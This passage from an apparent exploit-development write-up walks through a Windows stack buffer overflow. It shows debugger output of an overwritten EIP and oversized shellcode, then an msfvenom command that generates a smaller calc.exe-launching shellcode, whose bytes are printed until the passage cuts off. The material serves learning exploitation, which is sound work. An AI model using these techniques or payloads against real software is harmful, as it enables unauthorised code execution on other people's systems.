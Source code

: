 Run it on debugger again:

![image8](image8.png)

Notice there is an error message: `Access violation when writing to [001A0000]`

And notice the shellcode is overwritting the stack boundary:
```
0019FF28   61616161  aaaa
0019FF2C   CCD533FC  ü3ÕÌ <- EIP
0019FF30   AFB8CDDB  ÛÍ¸¯ <- Shellcode
...
...
0019FFF8   632982BC  ¼‚)c
0019FFFC   83DF9BCC  Ì›ßƒ <- End of Stack
```
So I need to reduce the shellcode size to less than 208 bytes (0x1A0000 - 0x19FF30 = 208)

I can add `--smallest` parameter to the command to get the smallest shellcode:
```bash
msfvenom -p windows/exec CMD=calc.exe -a x86 -b '\xC6' -f python --smallest
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
...
generic/none chosen with final size 193
Payload size: 193 bytes
Final size of python file: 948 bytes
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
```